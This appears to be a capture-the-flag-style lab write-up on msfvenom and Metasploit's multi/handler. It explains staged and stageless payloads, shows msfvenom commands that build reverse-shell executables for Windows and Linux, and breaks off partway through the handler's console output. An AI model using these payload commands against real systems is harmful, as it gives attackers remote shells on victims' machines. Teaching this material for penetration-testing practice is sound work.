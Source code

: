 
## Task 9 - msfvenom

Msfvenom is used to generate code for reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit. It can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py).

An example syntax to generate reverse shell.
{% capture code %}{% raw %}msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-ip> LPORT=<listen-port>{% endraw %}{% endcapture %} {% include code.html code=code %}

Types of payload
- `Staged payloads` are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the target. It connects back to a waiting listener, but doesn't actually contain any reverse shell code. It connects to the listener and downloads the actual payload. The payload is split into two parts - a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener, usually the Metasploit multi/handler.
- `Stageless payloads` are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable and have a lot of inbuilt functionality, such as file uploads and downloads. If any of Metasploit's post-exploitation tools are needed, then meterpreter shell should be used. The downside to meterpreter shells is that they must be caught in Metasploit.


### Payload naming conventions

The payloads are named in the convention, `<OS>/<arch>/<payload>`. `linux/x86/shell_reverse_tcp` constitute to `linux 32-bit` OS, `windows/shell_reverse_tcp` constitute to  `windows 32-bit` OS and `windows/x64/shell_reverse_tcp` constitute to `windows 64-bit` OS.

`shell_reverse_tcp` is a stageless payload where there is `_` after `shell` keyword, and `shell/reverse_tcp` is a  staged payload where there is `/` after `shell` keyword.

The following example is used to generate linux elf binary with staged reverse shell payload.
{% capture code %}{% raw %}msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443{% endraw %}{% endcapture %} {% include code.html code=code %}

To list available payloads, use the below.
{% capture code %}{% raw %}msfvenom --list payloads{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 10 - Metasploit multi/handler

Multi/Handler is a tool for catching reverse shells.

Use `msfconsole` to configure and spawn a `reverse shell`.
{% capture code %}{% raw %}msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

Name  Current Setting  Required  Description
----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port


Exploit target: